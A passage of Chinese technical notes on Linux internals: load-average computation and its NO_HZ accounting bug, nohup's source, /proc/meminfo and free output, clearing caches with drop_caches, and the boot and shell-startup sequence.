这样可以更加直观的看出nr_active和历史load在当前load中的权重关系 （多谢任震宇大师的指出） 
#define EXP_1           1884            /* 1/exp(5sec/1min) as fixed-point */ 
#define EXP_5           2014            /* 1/exp(5sec/5min) */ 
#define EXP_15          2037            /* 1/exp(5sec/15min) */


1分钟、5分钟、15分钟对应的EXP_N值如上，随着EXP_N的增大，(FIXED_1 – EXP_N)/FIXED_1值就越小， 
这样nr_active的变化对整体load带来的影响就越小。对于一个nr_active波动较小的系统，load会 
不断的趋近于nr_active，最开始趋近比较快，随着相差值变小，趋近慢慢变缓，越接近时越缓慢，并最 
终达到nr_active。如下图所示： 
文件:load 1515.jpg 


也因此得到一个结论，load直接反应的是系统中的nr_active。 那么nr_active又包含哪些？ 如何去计算 
当前系统中的nr_active？ 这些就涉及到了nr_active的采样。 

Loadavg采样 

nr_active直接反映的是为系统贡献load的进程总数，这个总数在nr_active函数中计算： 
kernel/sched.c
#+begin_src c
unsigned long nr_active(void) 
{ 
        unsigned long i, running = 0, uninterruptible = 0; 

        for_each_online_cpu(i) { 
                running += cpu_rq(i)->nr_running; 
                uninterruptible += cpu_rq(i)->nr_uninterruptible; 
        } 

        if (unlikely((long)uninterruptible < 0)) 
                uninterruptible = 0; 

        return running + uninterruptible; 
}
#+end_src

 #define TASK_RUNNING            0 
 #define TASK_INTERRUPTIBLE      1 
 #define TASK_UNINTERRUPTIBLE    2 
 #define TASK_STOPPED            4 
 #define TASK_TRACED             8 
/* in tsk->exit_state */ 
 #define EXIT_ZOMBIE             16 
 #define EXIT_DEAD               32 
/* in tsk->state again */ 
 #define TASK_NONINTERACTIVE     64


该函数反映，为系统贡献load的进程主要包括两类，一类是TASK_RUNNING，一类是TASK_UNINTERRUPTIBLE。
 当5s采样周期到达时，对各个online-cpu的运行队列进行遍历，取得当前时刻该队列上running和uninterruptible的
 进程数作为当前cpu的load，各个cpu load的和即为本次采样得到的nr_active。 


18内核计算loadavg存在的问题 

xtime_lock解析 

内核在5s周期执行一次全局load的更新，这些都是在calc_load函数中执行。追寻calc_load的调用： 
kernel/timer.c
#+begin_src c
static inline void update_times(void) 
{  
        unsigned long ticks; 

        ticks = jiffies - wall_jiffies; 
        wall_jiffies += ticks; 
        update_wall_time(); 
        calc_load(ticks); 
}
#+end_src

update_times中更新系统wall time，然后执行全局load的更新。 
kernel/timer.c
#+begin_src c
void do_timer(struct pt_regs *regs) 
{  
        jiffies_64++; 
        /* prevent loading jiffies before storing new jiffies_64 value. */ 
        barrier(); 
        update_times(); 
}
#+end_src

do_timer中首先执行全局时钟jiffies的更新，然后是update_times。 
#+begin_src c
void main_timer_handler(struct pt_regs *regs) 
{ 
...
        write_seqlock(&xtime_lock);
...
        do_timer(regs); 
 #ifndef CONFIG_SMP 
        update_process_times(user_mode(regs)); 
 #endif 
...
        write_sequnlock(&xtime_lock); 
}
#+end_src

对wall_time和全局jiffies的更新都是在加串行锁（sequence lock）xtime_lock之后执行的。 
include/linux/seqlock.h
#+begin_src c
static inline void write_seqlock(seqlock_t *sl) 
{ 
        spin_lock(&sl->lock);
        ++sl->sequence; 
        smp_wmb(); 
} 

static inline void write_sequnlock(seqlock_t *sl) 
{ 
        smp_wmb(); 
        sl->sequence++; 
        spin_unlock(&sl->lock); 
} 
 
typedef struct { 
        unsigned sequence; 
        spinlock_t lock; 
} seqlock_t;
#+end_src

sequence lock内部保护一个用于计数的sequence。Sequence lock的写锁是通过spin_lock实现的， 
在spin_lock后对sequence计数器执行一次自增操作，然后在锁解除之前再次执行sequence的自增操作。 
sequence初始化时为0。这样，当锁内部的sequence为奇数时，说明当前该sequence lock的写锁正被拿， 
读和写可能不安全。如果在写的过程中，读是不安全的，那么就需要在读的时候等待写锁完成。对应读锁使用如下： 
#+begin_src c
 #if (BITS_PER_LONG < 64) 
u64 get_jiffies_64(void) 
{ 
        unsigned long seq; 
        u64 ret;  

        do { 
                seq = read_seqbegin(&xtime_lock); 
                ret = jiffies_64; 
        } while (read_seqretry(&xtime_lock, seq)); 
        return ret; 
} 

EXPORT_SYMBOL(get_jiffies_64); 
 #endif 
#+end_src

读锁实现如下： 
#+begin_src c
static __always_inline unsigned read_seqbegin(const seqlock_t *sl) 
{ 
        unsigned ret = sl->sequence; 
        smp_rmb(); 
        return ret; 
} 

static __always_inline int read_seqretry(const seqlock_t *sl, unsigned iv) 
{ 
        smp_rmb(); 
      	/*iv为读之前的锁计数器
        * 当iv为基数时，说明读的过程中写锁被拿，可能读到错误值
        * 当iv为偶数，但是读完之后锁的计数值和读之前不一致，则说明读的过程中写锁被拿，
        * 也可能读到错误值。
        */
        return (iv & 1) | (sl->sequence ^ iv);  
}
#+end_src

至此xtime_lock的实现解析完毕，由于对应写锁基于spin_lock实现，多个程序竞争写锁时等待者会一直循环等待， 
当锁里面处理时间过长，会导致整个系统的延时增长。另外，如果系统存在很多xtime_lock的读锁，在某个程 
序获取该写锁后，读锁就会进入类似spin_lock的循环查询状态，直到保证可以读取到正确值。因此需要尽可能 
短的减少在xtime_lock写锁之间执行的处理流程。 

 全局load读写分离解xtime_lock问题 

在计算全局load函数calc_load中，每5s需要遍历一次所有cpu的运行队列，获取对应cpu上的load。1）由于cpu个数是不固 
定的，造成calc_load的执行时间不固定，在核数特别多的情况下会造成xtime_lock获取的时间过长。2）calc_load是 
每5s一次的采样程序，本身并不能够精度特别高，对全局avenrun的读和写之间也不需要专门的锁保护，可以将全局load的 
更新和读进行分离。 
Dimitri Sivanich提出在他们的large SMP系统上，由于calc_load需要遍历所有online CPU，造成系统延迟较大。 
基于上述原因Thomas Gleixnert提交了下述patch对该bug进行修复： 
[Patch 1/2] sched, timers: move calc_load() to scheduler
[Patch 2/2] sched, timers: cleanup avenrun users


文件:rw isolate.jpg 

Thomas的两个patch，主要思想如上图所示。首先将全局load的计算分离到per-cpu上，各个cpu上计算load时不加xtime_lock 
的锁，计算的load更新到全局calc_load_tasks中，所有cpu上load计算完后calc_load_tasks即为整体的load。在5s定 
时器到达时执行calc_global_load，读取全局cacl_load_tasks，更新avenrun。由于只是简单的读取calc_load_tasks， 
执行时间和cpu个数没有关系。 

 几个关键点： 

 不加xtime_lock的per cpu load计算 

在不加xtime_lock的情况下，如何保证每次更新avenrun时候读取的calc_load_tasks为所有cpu已经更新之后的load？ 

Thomas的解决方案 

Thomas的做法是将定时器放到sched_tick中，每个cpu都设置一个LOAD_FREQ定时器。 
定时周期到达时执行当前处理器上load的计算。sched_tick在每个tick到达时执行 
一次，tick到达是由硬件进行控制的，客观上不受系统运行状况的影响。 

sched_tick的时机 

将per-cpu load的计算放至sched_tick中执行，第一反应这不是又回到了时间处理中断之间，是否依旧 
存在xtime_lock问题？ 下面对sched_tick进行分析（以下分析基于linux-2.6.32-220.17.1.el5源码） 
#+begin_src c
static void update_cpu_load_active(struct rq *this_rq) 
{ 
        update_cpu_load(this_rq); 

        calc_load_account_active(this_rq); 
}
 
void scheduler_tick(void) 
{ 
        int cpu = smp_processor_id(); 
        struct rq *rq = cpu_rq(cpu); 
...
        spin_lock(&rq->lock); 
...
        update_cpu_load_active(rq); 
...
        spin_unlock(&rq->lock); 

...
} 
 
void update_process_times(int user_tick) 
{ 
...
        scheduler_tick(); 
...
}
 
static void tick_periodic(int cpu) 
{ 
        if (tick_do_timer_cpu == cpu) { 
                write_seqlock(&xtime_lock); 

                /* Keep track of the next tick event */ 
                tick_next_period = ktime_add(tick_next_period, tick_period); 
           
                do_timer(1);  // calc_global_load在do_timer中被调用
                write_sequnlock(&xtime_lock); 
        } 
 
        update_process_times(user_mode(get_irq_regs())); 
...
}
 
void tick_handle_periodic(struct clock_event_device *dev) 
{ 
        int cpu = smp_processor_id(); 
...
        tick_periodic(cpu); 
...
}
#+end_src

交错的时间差 

将per-cpu load的计算放到sched_tick中后，还存在一个问题就是何时执行per-cpu上的load计算，如何保证更新全 
局avenrun时读取的全局load为所有cpu都计算之后的？ 当前的方法是给所有cpu设定同样的步进时间LOAD_FREQ， 
过了这个周期点当有tick到达则执行该cpu上load的计算，更新至全局的calc_load_tasks。calc_global_load 
的执行点为LOAD_FREQ+10，即在所有cpu load计算执行完10 ticks之后，读取全局的calc_load_tasks更新avenrun。 



通过将calc_global_load和per-cpu load计算的时间进行交错，可以避免calc_global_load在各个cpu load计算之间执行， 
导致load采样不准确问题。 

32内核Load计数nohz问题 

一个问题的解决，往往伴随着无数其他问题的诞生！Per-cpu load的计算能够很好的分离全局load的更新和读取，避免大型系统中cpu 
核数过多导致的xtime_lock问题。但是也同时带来了很多其他需要解决的问题。这其中最主要的问题就是nohz问题。 

为避免cpu空闲状态时大量无意义的时钟中断，引入了nohz技术。在这种技术下，cpu进入空闲状态之后会关闭该cpu对应的时钟中断，等 
到下一个定时器到达，或者该cpu需要执行重新调度时再重新开启时钟中断。 

cpu进入nohz状态后该cpu上的时钟tick停止，导致sched_tick并非每个tick都会执行一次。这使得将per-cpu的load计算放在 
sched_tick中并不能保证每个LOAD_FREQ都执行一次。如果在执行per-cpu load计算时，当前cpu处于nohz状态，那么当 
前cpu上的sched_tick就会错过，进而错过这次load的更新，最终全局的load计算不准确。 
基于Thomas第一个patch的思想，可以在cpu调度idle时对nohz情况进行处理。采用的方式是在当前cpu进入idle前进行一次该cpu 
上load的更新，这样即便进入了nohz状态，该cpu上的load也已经更新至最新状态，不会出现不更新的情况。如下图所示： 



理论上，该方案很好的解决了nohz状态导致全局load计数可能不准确的问题，事实上这却是一个苦果的开始。大量线上应用反馈 
最新内核的load计数存在问题，在16核机器cpu利用率平均为20%~30%的情况下，整体load却始终低于1。 

 解决方案 

接到我们线上报告load计数偏低的问题之后，进行了研究。最初怀疑对全局load计数更新存在竞争。对16核的系统，如果都没有进入 
nohz状态，那么这16个核都将在LOAD_FREQ周期到达的那个tick内执行per-cpu load的计算，并更新到全局的load中，这 
之间如果存在竞争，整体计算的load就会出错。当前每个cpu对应rq都维护着该cpu上一次计算的load值，如果发现本次计算load 
和上一次维护的load值之间差值为0，则不用更新全局load，否则将差值更新到全局load中。正是由于这个机制，全局load如果被 
篡改，那么在各个cpu维护着自己load的情况下，全局load最终将可能出现负值。而负值通过各种观察，并没有在线上出现，最终竞 
争条件被排除。 

通过/proc/sched_debug对线上调度信息进行分析，发现每个时刻在cpu上运行的进程基本维持在2~3个，每个时刻运行有进程的cpu都 
不一样。进一步分析，每个cpu上平均每秒出现sched_goidle的情况大概为1000次左右。因此得到线上每次进入idle的间隔为1ms/次。 
结合1HZ=1s=1000ticks，可以得到1tick =1ms。所以可以得到线上应用基本每一个tick就会进入一次idle！！！ 这个发现就好比 
原来一直用肉眼看一滴水，看着那么完美那么纯净，突然间给你眼前架了一个放大镜，一下出现各种凌乱的杂碎物。 在原有的世界里， 
10ticks是那么的短暂，一个进程都可能没有运行完成，如今发现10ticks内调度idle的次数就会有近10次。接着用例子对应用场景进行分析： 





(说明：可能你注意到了在5HZ+5到5HZ+11过程中也有CPU从非idle进入了idle，但是为什么没有-1，这里是由于每个cpu都保留 
了一份该CPU上一次计算时的load，如果load没有变化则不进行计算，这几个cpu上一次计算load为0，并没有变化) 

Orz！load为3的情况直接算成了0，难怪系统整体load会偏低。这里面的一个关键点是：对已经计算过load的cpu，我们对idle进 
行了计算，却从未考虑过这给从idle进入非idle的情况带来的不公平性。这个是当前线上2.6.32系统存在的问题。在定位到问题 
之后，跟进到upstream中发现Peter Z针对该load计数问题先后提交了三个patch，最新的一个patch是在4月份提交。这三个 
patch如下： 
[Patch] sched: Cure load average vs NO_HZ woes
[Patch] sched: Cure more NO_HZ load average woes
[Patch] sched: Fix nohz load accounting – again!


这是目前我们backport的patch，基本思想是将进入idle造成的load变化暂时记录起来，不是每次进入idle都导致全局load的更新。 
这里面的难点是什么时候将idle更新至全局的load中？在最开始计算per-cpu load的时候需要将之前所有的idle都计算进来， 
由于目前各个CPU执行load计算的先后顺序暂时没有定，所以将这个计算放在每个cpu里面都计算一遍是一种方法。接着用示例进行说明： 


至此这三个patch能够很好的处理我们的之前碰到的进入idle的问题。 
将上述三个patch整理完后，在淘客前端线上机器中进行测试，测试结果表明load得到了明显改善。 

 更细粒度的时间问题 

* man proc
  我一直想找的/proc的详细描述
  man proc
* nohup 代码
nohup 实现原来如此简单
#+begin_src c
int
fd_reopen (int desired_fd, char const *file, int flags, mode_t mode)
{
  int fd = open (file, flags, mode);

  if (fd == desired_fd || fd < 0)
    return fd;
  else
    {
      int fd2 = dup2 (fd, desired_fd);
      int saved_errno = errno;
      close (fd);
      errno = saved_errno;
      return fd2;
    }
}
#+end_src

#+begin_src c
  ignoring_input = isatty (STDIN_FILENO);
  redirecting_stdout = isatty (STDOUT_FILENO);
  stdout_is_closed = (!redirecting_stdout && errno == EBADF);
  redirecting_stderr = isatty (STDERR_FILENO);

  /* If standard input is a tty, replace it with /dev/null if possible.
     Note that it is deliberately opened for *writing*,
     to ensure any read evokes an error.  */
  /* 忽略输入时，将标准输入的fd设置为/dev/null */
  if (ignoring_input)
    {
      if (fd_reopen (STDIN_FILENO, "/dev/null", O_WRONLY, 0) < 0)
        {
          error (0, errno, _("failed to render standard input unusable"));
          exit (exit_internal_failure);
        }
      if (!redirecting_stdout && !redirecting_stderr)
        error (0, 0, _("ignoring input"));
    }

  /* If standard output is a tty, redirect it (appending) to a file.
     First try nohup.out, then $HOME/nohup.out.  If standard error is
     a tty and standard output is closed, open nohup.out or
     $HOME/nohup.out without redirecting anything.  */
 /* 输出是tty时，将STDOUT的fd设置为nohup.out文件的fd 
    如果当前目录下nohup.out打开失败，那么尝试打开$HOME/nohup.out
 */
  if (redirecting_stdout || (redirecting_stderr && stdout_is_closed))
    {
      char *in_home = NULL;
      char const *file = "nohup.out";
      int flags = O_CREAT | O_WRONLY | O_APPEND;
      mode_t mode = S_IRUSR | S_IWUSR;
      mode_t umask_value = umask (~mode);
      out_fd = (redirecting_stdout
                ? fd_reopen (STDOUT_FILENO, file, flags, mode)
                : open (file, flags, mode));

      if (out_fd < 0)
        {
          int saved_errno = errno;
          char const *home = getenv ("HOME");
          if (home)
            {
              in_home = file_name_concat (home, file, NULL);
              out_fd = (redirecting_stdout
                        ? fd_reopen (STDOUT_FILENO, in_home, flags, mode)
                        : open (in_home, flags, mode));
            }
          if (out_fd < 0)
            {
              int saved_errno2 = errno;
              error (0, saved_errno, _("failed to open %s"), quote (file));
              if (in_home)
                error (0, saved_errno2, _("failed to open %s"),
                       quote (in_home));
              exit (exit_internal_failure);
            }
          file = in_home;
        }

      umask (umask_value);
      error (0, 0,
             _(ignoring_input
               ? N_("ignoring input and appending output to %s")
               : N_("appending output to %s")),
             quote (file));
      free (in_home);
    }

  /* If standard error is a tty, redirect it.  */
  if (redirecting_stderr)
    {
      /* Save a copy of stderr before redirecting, so we can use the original
         if execve fails.  It's no big deal if this dup fails.  It might
         not change anything, and at worst, it'll lead to suppression of
         the post-failed-execve diagnostic.  */
      saved_stderr_fd = dup (STDERR_FILENO);

      if (0 <= saved_stderr_fd
          && set_cloexec_flag (saved_stderr_fd, true) != 0)
        error (exit_internal_failure, errno,
               _("failed to set the copy of stderr to close on exec"));

      if (!redirecting_stdout)
        error (0, 0,
               _(ignoring_input
                 ? N_("ignoring input and redirecting stderr to stdout")
                 : N_("redirecting stderr to stdout")));

      if (dup2 (out_fd, STDERR_FILENO) < 0)
        error (exit_internal_failure, errno,
               _("failed to redirect standard error"));

      if (stdout_is_closed)
        close (out_fd);
    }

  /* error() flushes stderr, but does not check for write failure.
     Normally, we would catch this via our atexit() hook of
     close_stdout, but execvp() gets in the way.  If stderr
     encountered a write failure, there is no need to try calling
     error() again, particularly since we may have just changed the
     underlying fd out from under stderr.  */
  if (ferror (stderr))
    exit (exit_internal_failure);

  signal (SIGHUP, SIG_IGN);

  {
    int exit_status;
    int saved_errno;
    char **cmd = argv + optind;

    execvp (*cmd, cmd);
    exit_status = (errno == ENOENT ? EXIT_ENOENT : EXIT_CANNOT_INVOKE);
    saved_errno = errno;

    /* The execve failed.  Output a diagnostic to stderr only if:
       - stderr was initially redirected to a non-tty, or
       - stderr was initially directed to a tty, and we
         can dup2 it to point back to that same tty.
       In other words, output the diagnostic if possible, but only if
       it will go to the original stderr.  */
    if (dup2 (saved_stderr_fd, STDERR_FILENO) == STDERR_FILENO)
      error (0, saved_errno, _("failed to run command %s"), quote (*cmd));

    exit (exit_status);
  }
}

#+end_src
* /proc/meminfo

kernel 2.6.18中
#+begin_src c
static int meminfo_read_proc(char *page, char **start, off_t off,
				 int count, int *eof, void *data)
{
	struct sysinfo i;
        ....
	get_zone_counts(&active, &inactive, &free);

/*
 * display in kilobytes.
 */
 #define K(x) ((x) << (PAGE_SHIFT - 10))
	si_meminfo(&i);
	si_swapinfo(&i);
	committed = atomic_read(&vm_committed_space);
	allowed = ((totalram_pages - hugetlb_total_pages())
		* sysctl_overcommit_ratio / 100) + total_swap_pages;

	cached = global_page_state(NR_FILE_PAGES) -
			total_swapcache_pages - i.bufferram;
	if (cached < 0)
		cached = 0;

	get_vmalloc_info(&vmi);

	/*
	 * Tagged format, for easy grepping and expansion.
	 */
	len = sprintf(page,
		"MemTotal:     %8lu kB\n"
		"MemFree:      %8lu kB\n"
		"Buffers:      %8lu kB\n"
		"Cached:       %8lu kB\n"
		"SwapCached:   %8lu kB\n"
		"Active:       %8lu kB\n"
		"Inactive:     %8lu kB\n"
		"HighTotal:    %8lu kB\n"
		"HighFree:     %8lu kB\n"
		"LowTotal:     %8lu kB\n"
		"LowFree:      %8lu kB\n"
		"SwapTotal:    %8lu kB\n"
		"SwapFree:     %8lu kB\n"
		"Dirty:        %8lu kB\n"
		"Writeback:    %8lu kB\n"
		"AnonPages:    %8lu kB\n"
		"Mapped:       %8lu kB\n"
		"Slab:         %8lu kB\n"
		"PageTables:   %8lu kB\n"
		"NFS_Unstable: %8lu kB\n"
		"Bounce:       %8lu kB\n"
		"CommitLimit:  %8lu kB\n"
		"Committed_AS: %8lu kB\n"
		"VmallocTotal: %8lu kB\n"
		"VmallocUsed:  %8lu kB\n"
		"VmallocChunk: %8lu kB\n",
		K(i.totalram),
		K(i.freeram),
		K(i.bufferram),
		K(cached),
		K(total_swapcache_pages),
		K(active),
		K(inactive),
		K(i.totalhigh),
		K(i.freehigh),
		K(i.totalram-i.totalhigh),
		K(i.freeram-i.freehigh),
		K(i.totalswap),
		K(i.freeswap),
		K(global_page_state(NR_FILE_DIRTY)),
		K(global_page_state(NR_WRITEBACK)),
		K(global_page_state(NR_ANON_PAGES)),
		K(global_page_state(NR_FILE_MAPPED)),
		K(global_page_state(NR_SLAB)),
		K(global_page_state(NR_PAGETABLE)),
		K(global_page_state(NR_UNSTABLE_NFS)),
		K(global_page_state(NR_BOUNCE)),
		K(allowed),
		K(committed),
		(unsigned long)VMALLOC_TOTAL >> 10,
		vmi.used >> 10,
		vmi.largest_chunk >> 10
		);

		len += hugetlb_report_meminfo(page + len);

	return proc_calc_metrics(page, start, off, count, eof, len);
 #undef K
}
#+end_src
page_alloc.c:
#+begin_src c
void si_meminfo(struct sysinfo *val)
{
	val->totalram = totalram_pages;
	val->sharedram = 0;
	val->freeram = nr_free_pages();
	val->bufferram = nr_blockdev_pages();
 #ifdef CONFIG_HIGHMEM
	val->totalhigh = totalhigh_pages;
	val->freehigh = nr_free_highpages();
 #else
	val->totalhigh = 0;
	val->freehigh = 0;
#endif
	val->mem_unit = PAGE_SIZE;
}
#+end_src

block_dev.c:
nr_blockdev_pages计算块设备使用的页框数，遍历所有块设备，将使用的页框数相加。而不包含普通文件使用的页框数
#+begin_src c
long nr_blockdev_pages(void)
{
	struct list_head *p;
	long ret = 0;
	spin_lock(&bdev_lock);
	list_for_each(p, &all_bdevs) {
		struct block_device *bdev;
		bdev = list_entry(p, struct block_device, bd_list);
		ret += bdev->bd_inode->i_mapping->nrpages;
	}
	spin_unlock(&bdev_lock);
	return ret;
}
#+end_src

** 释放cache
Free命令输出的第一行是对应的实实在在的内存，不管是buffer，还是cache。Swap对应磁盘上的交换分区。Kernel会尽量使用RAM做cache，所以一般cache都比较大：
             total       used       free     shared    buffers     cached
Mem:       8164308    8111364     52944          0     310644     3502208
-/+ buffers/cache:     4298512    3865796
Swap:      2104504     440        2104064
8G的内存，而空闲(free)的内存只有约50M，比较惊人。其实，cached占了3G+。另外，我们看到第三行used列约为4G，是比较大的，确实，该机器上跑了好几个接入服务。
 
 

Kernel2.6.16之后的版本提供了一种释放cache的机制，通过修改内核参数/proc/sys/vm/drop_caches让内核释放干净的cache。
To free pagecache:
         echo 1 > /proc/sys/vm/drop_caches
To free dentries and inodes:
         echo 2 > /proc/sys/vm/drop_caches
To free pagecache, dentries and inodes:
         echo 3 > /proc/sys/vm/drop_caches
 
 # free
             total       used       free     shared    buffers     cached
Mem:       1966220    1676428     289792          0     418900     705216
-/+ buffers/cache:     552312    1413908
Swap:      2104504     131084    1973420
 # echo 1 > /proc/sys/vm/drop_caches
 # free
             total       used       free     shared    buffers     cached
Mem:       1966220     597840    1368380          0        324      65852
-/+ buffers/cache:     531664    1434556
Swap:      2104504     131084    1973420
设置内核参数drop_caches后，cached的值迅速下降。通常来说，Linux会尽量使用可用的RAM，cache过高，是正常的。而手动释放cache会增加I/O开销，导致系统性能下降。

* free
free 输出字段的意义

             total       used       free     shared    buffers     cached
Mem:       1028444     991676      36768          0      18080     632156
-/+ buffers/cache:     341440     687004
Swap:            0          0          0

man free 知道利用/proc/meminfo，kernel会向/proc/meminfo写数据，然后free程序从中读取。

Mem: 
total = used + free  这个used包含当前正被使用的 + 现在还没使用的buffers/cached

-/+ buffers/cache: 
这行把buffers/cache视为一个整体，是kernel不采用page cache策略时将得出的数字:
341440表示系统当前正在使用的物理内存 = 991676 - (buffers+cached)
687004表示系统当前真正free的物理内存 = 36768  + (buffers+cached)

buffers+cached = 18080 + 632156 = 650236  一共1GB内存，有650多MB做了page cache。
buffers/cached来源于kernel中的page cache，不管内存多大，kernel经过一段时间都会逐渐用光所有内存，
此时第一行的used接近内存条容量，就是把从没用过的内存都转化成page cache以便随时使用。

page cache 包括普通的page，buffer page，swap cache。
buffers就对应buffer page，有个额外的buffer_head struct来管理，swap cache用来减少I/O。

普通文件要经过filesystem处理，对应cached
不经过filesystem处理的metadata(比如superblock)，对应buffers。
kernel把这两种情况统一处理，都是封装成bio，然后提交给device driver处理。
* linux启动缓慢

  linux 磁盘自检
  mount 
  tune2fs -l /dev/sda2
* linux启动过程

** 加载内核
操作系统接管硬件以后，首先读入 /boot 目录下的内核文件
** 启动初始化进程
内核文件加载以后，就开始运行第一个程序 /sbin/init，它的作用是初始化系统环境。
由于init是第一个运行的程序，它的进程编号（pid）就是1。其他所有进程都从它衍生，都是它的子进程。
** 确定运行级别
init进程首先读取文件 /etc/inittab，它是运行级别的设置文件。如果你打开它，可以看到第一行是这样的：
　id:2:initdefault:

initdefault的值是2，表明系统启动时的运行级别为2。如果需要指定其他级别，可以手动修改这个值。
那么，运行级别2有些什么程序呢，系统怎么知道每个级别应该加载哪些程序呢？......回答是每个运行级别在/etc目录下面，都有一个对应的子目录，指定要加载的程序。

　　/etc/rc0.d
　　/etc/rc1.d
　　/etc/rc2.d
　　/etc/rc3.d
　　/etc/rc4.d
　　/etc/rc5.d
　　/etc/rc6.d
　　
上面目录名中的"rc"，表示run command（运行程序），最后的d表示directory（目录）。下面让我们看看 /etc/rc2.d 目录中到底指定了哪些程序。

　　$ ls  /etc/rc2.d
　　
　　README
　　S01motd
　　S13rpcbind
　　S14nfs-common
　　S16binfmt-support
　　S16rsyslog
　　S16sudo
　　S17apache2
　　S18acpid
　　...
　　
可以看到，除了第一个文件README以外，其他文件名都是"字母S+两位数字+程序名"的形式。
字母S表示Start，也就是启动的意思（启动脚本的运行参数为start），如果这个位置是字母K，就代表Kill（关闭），即如果从其他运行级别切换过来，需要关闭的程序（启动脚本的运行参数为stop）。后面的两位数字表示处理顺序，数字越小越早处理，所以第一个启动的程序是motd，然后是rpcbing、nfs......数字相同时，则按照程序名的字母顺序启动，所以rsyslog会先于sudo启动。
这个目录里的所有文件（除了README），就是启动时要加载的程序。如果想增加或删除某些程序，不建议手动修改 /etc/rcN.d 目录，最好是用一些专门命令进行管理


** 加载开机启动程序
   守护进程

前面提到，七种预设的"运行级别"各自有一个目录，存放需要开机启动的程序。
不难想到，如果多个"运行级别"需要启动同一个程序，那么这个程序的启动脚本，就会在每一个目录里都有一个拷贝。
这样会造成管理上的困扰：如果要修改启动脚本，岂不是每个目录都要改一遍？
Linux的解决办法，就是七个 /etc/rcN.d 目录里列出的程序，都设为链接文件，指向另外一个目录 /etc/init.d ，真正的启动脚本都统一放在这个目录中。
init进程逐一加载开机启动程序，其实就是运行这个目录里的启动脚本。

下面就是链接文件真正的指向。

　　$ ls -l /etc/rc2.d
　　
　　README
　　S01motd -> ../init.d/motd
　　S13rpcbind -> ../init.d/rpcbind
　　S14nfs-common -> ../init.d/nfs-common
　　S16binfmt-support -> ../init.d/binfmt-support
　　S16rsyslog -> ../init.d/rsyslog
　　S16sudo -> ../init.d/sudo
　　S17apache2 -> ../init.d/apache2
　　S18acpid -> ../init.d/acpid
　　...
　　
这样做的另一个好处，就是如果你要手动关闭或重启某个进程，直接到目录 /etc/init.d 中寻找启动脚本即可。比如，我要重启Apache服务器，就运行下面的命令：

　　$ sudo /etc/init.d/apache2 restart
　　
/etc/init.d 这个目录名最后一个字母d，是directory的意思，表示这是一个目录，用来与程序 /etc/init 区分。

** 用户登录
开机启动程序加载完毕以后，就要让用户登录了。

一般来说，用户的登录方式有三种：
　　（1）命令行登录
　　（2）ssh登录
　　（3）图形界面登录
这三种情况，都有自己的方式对用户进行认证。
（1）命令行登录：init进程调用getty程序（意为get teletype），让用户输入用户名和密码。输入完成后，再调用login程序，核对密码（Debian还会再多运行一个身份核对程序/etc/pam.d/login）。如果密码正确，就从文件 /etc/passwd 读取该用户指定的shell，然后启动这个shell。
（2）ssh登录：这时系统调用sshd程序（Debian还会再运行/etc/pam.d/ssh ），取代getty和login，然后启动shell。
（3）图形界面登录：init进程调用显示管理器，Gnome图形界面对应的显示管理器为gdm（GNOME Display Manager），然后用户输入用户名和密码。如果密码正确，就读取/etc/gdm3/Xsession，启动用户的会话。
** 进入 login shell
所谓shell，简单说就是命令行界面，让用户可以直接与操作系统对话。用户登录时打开的shell，就叫做login shell。

Debian默认的shell是Bash，它会读入一系列的配置文件。上一步的三种情况，在这一步的处理，也存在差异。
（1）命令行登录：首先读入 /etc/profile，这是对所有用户都有效的配置；然后依次寻找下面三个文件，这是针对当前用户的配置。

　　~/.bash_profile
　　~/.bash_login
　　~/.profile
　　
需要注意的是，这三个文件只要有一个存在，就不再读入后面的文件了。比如，要是 ~/.bash_profile 存在，就不会再读入后面两个文件了。
（2）ssh登录：与第一种情况完全相同。
（3）图形界面登录：只加载 /etc/profile 和 ~/.profile。也就是说，~/.bash_profile 不管有没有，都不会运行。
** 打开 non-login shell
老实说，上一步完成以后，Linux的启动过程就算结束了，用户已经可以看到命令行提示符或者图形界面了。但是，为了内容的完整，必须再介绍一下这一步。
用户进入操作系统以后，常常会再手动开启一个shell。这个shell就叫做 non-login shell，意思是它不同于登录时出现的那个shell，不读取/etc/profile和.profile等配置文件。

non-login shell的重要性，不仅在于它是用户最常接触的那个shell，还在于它会读入用户自己的bash配置文件 ~/.bashrc。大多数时候，我们对于bash的定制，都是写在这个文件里面的。
你也许会问，要是不进入 non-login shell，岂不是.bashrc就不会运行了，因此bash 也就不能完成定制了？事实上，Debian已经考虑到这个问题了，请打开文件 ~/.profile，可以看到下面的代码：

　　if [ -n "$BASH_VERSION" ]; then
　　　　if [ -f "$HOME/.bashrc" ]; then
　　　　　　. "$HOME/.bashrc"
　　　　fi
　　fi
　　
上面代码先判断变量 $BASH_VERSION 是否有值，然后判断主目录下是否存在 .bashrc 文件，如果存在就运行该文件。第三行开头的那个点，是source命令的简写形式，表示运行某个文件，写成"source ~/.bashrc"也是可以的。
因此，只要运行～/.profile文件，～/.bashrc文件就会连带运行。但是上一节的第一种情况提到过，如果存在～/.bash_profile文件，那么有可能不会运行～/.profile文件。解决这个问题很简单，把下面代码写入.bash_profile就行了。

　　if [ -f ~/.profile ]; then
　　　　. ~/.profile
　　fi
　　
这样一来，不管是哪种情况，.bashrc都会执行，用户的设置可以放心地都写入这个文件了。
Bash的设置之所以如此繁琐，是由于历史原因造成的。早期的时候，计算机运行速度很慢，载入配置文件需要很长时间，Bash的作者只好把配置文件分成了几个部分，阶段性载入。系统的通用设置放在 /etc/profile，用户个人的、需要被所有子进程继承的设置放在.profile，不需要被继承的设置放在.bashrc。
顺便提一下，除了Linux以外， Mac OS X 使用的shell也是Bash。但是，它只加载.bash_profile，然后在.bash_profile里面调用.bashrc。而且，不管是ssh登录，还是在图形界面里启动shell窗口，都是如此。

* linux启动过程
POST加电自检
-->BIOS(Boot Sequence)
-->加载对应引导上的MBR(bootloader)
-->主引导设置加载其BootLoader
-->Kernel初始化
-->initrd
-—>/sbin/init进程加载/etc/inittab


kernel_init --> run_init_process("sbin/init")

init的实现：
It depends on Linux version. Traditionally, _sysvinit_ was used.
These days, many Linux distros use _upstart_.
Some others, like Fedora, are using _systemd_.

** 剖析详细启动过程
1. POST开机自检：电脑主机打开电源的时候，随后会听到滴的一声，系统启动开始了开机自检（POST-power on self
   test）自检开始），这个过程中主要是检测计算机硬件设备比如：CPU，内存，主板，显卡，CMOS等设备是否有故障存
   在，如果有硬件故障的话将按两种情况理：对于严重故障(致命性故障)则停机，此时由于各种初始化操作还没完成，
   不能给出任何提示或信号；对于非严重故障则给出提示或声音报警信号，等待用户处理），如果没有故障，POST完整自己
   的接力任务，将尾部工作交接给BIOS处理。 
